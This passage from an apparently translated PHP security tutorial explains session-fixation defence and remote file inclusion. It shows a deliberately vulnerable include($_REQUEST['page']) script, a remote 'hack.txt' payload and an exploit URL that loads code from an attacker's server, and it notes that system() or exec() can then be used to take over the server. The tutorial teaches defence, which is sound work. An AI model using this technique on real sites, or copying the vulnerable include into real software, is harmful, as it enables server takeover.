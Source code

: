 To secure your script against this kind of attack, simply regenerate an identifier as soon as authentication has been completed. The script must secure web applications against session identifiers that have never been created beforehand by the server; if there was only the session_start() function, the script would then be vulnerable to this type of attack.

The secure script:

```php
<?php
session_start();

if (!isset($_SESSION['initiated']))
{
session_regenerate_id();
$_SESSION['initiated'] = true;
}
?>
```

It's also possible to regenerate the session identifier during authentication for more security, or even to regenerate it with each request to the server.

## PHP Vulnerabilities

Details of vulnerabilities related to the use of include() and fopen() functions in PHP scripts as well as those associated with Cross Site Scripting flaws, also known by the acronym XSS. Also find the security principles related to these different types of risks.

### The include() Function

This function is fairly well known and used. It allows code to be modularized by dynamically loading a file and executing the PHP code it contains. It also handles local files and streams of type curl, http, ftp, and php.

This allows for code injection, an example with the file "fichiervuln.php" found on the vulnerable site:

```php
<?
include($_REQUEST["page"]);
?>
```

And a file "hack.txt" hosted on any site:

```php
<?
phpinfo();
?>
```

On a vulnerable site, you can notice links like "sitevuln.com/fichiervuln.php?page=contact.html". To exploit the resulting flaw, simply go to the URL "sitevuln.com/fichiervuln.php?page=monserver.com/hack.txt".

We can see that the phpinfo() function has been executed. A hacker can then take control of the server and execute other programs through the system() function, exec() or through a local PHP exploit.
